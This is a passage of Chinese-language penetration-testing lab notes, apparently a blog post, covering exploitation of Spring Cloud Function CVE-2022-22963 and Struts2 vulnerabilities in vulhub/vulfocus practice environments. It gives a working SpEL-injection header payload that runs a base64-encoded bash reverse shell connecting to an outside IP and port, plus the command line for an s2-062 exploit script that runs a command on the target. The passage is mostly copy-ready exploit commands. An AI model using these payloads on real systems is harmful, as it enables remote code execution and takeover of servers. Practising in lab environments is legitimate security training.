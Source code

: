 ```plain
3、CVE-2022-22963 Spring Cloud Function Spel表达式注入
Spring Cloud Function 提供了一个通用的模型，用于在各种平台上部署基于函数的软件，包括像 Amazon AWS Lambda 这样的 FaaS（函数即服务，function as a service）平台。

启动环境：
cd /vulhub-master/spring/CVE-2022-22963
sudo docker-compose up -d
参考：https://vulhub.org/#/environments/spring/CVE-2022-22963/

访问：http://192.168.233.128:8088/

访问地址http://192.168.233.128:8088/functionRouter 进行抓包：构造一个post包

反弹命令：bash -i >& /dev/tcp/175.178.151.29/5566 0>&1
经过base64编码：YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=
组合：bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}

进行替换数据包：
Connection: close
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzUuMTc4LjE1MS4yOS81NTY2IDA+JjE=}|{base64,-d}|{bash,-i}")
接收到会话，完成测试。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134948706-1926198945.png)

```plain
为什么这个不用编码，而上一个需要进行编码才能成功呢？这个是请求头跟请求体的问题，如果数据写在下面的话，就需要进行URL编码。写在请求头中的数据就不需要URL编码。
```

Struts2

```plain
Struts2是一个基于MVC设计模式的Web应用框架

1、2020前漏洞
武器库-st2专检
环境（vulfocus/struts-s2-009:latest）：http://vulfocus.io/#/dashboard

判断Struts2也比较简单，一般看url后缀为.action：http://123.58.236.76:30918/showcase.action
可以用到集成化检测工具，Struts

检测出来也可以进行命令执行。还有很多，都是一样的，打开用工具跑就行。
```

![image.png](https://img2023.cnblogs.com/blog/2504969/202309/2504969-20230913134949573-1676700360.png)

```plain
2、cve_2020_17530
环境：http://vulfocus.io/#/dashboard
利用工具检测不出来，因为没有集成在里面。

可以在网上找资源，找相关的漏洞
利用脚本：https://github.com/YanMu2020/s2-062

执行：G:\python38\python.exe s2-062.py --url "http://123.58.236.76:43417" --cmd "whoami"
```
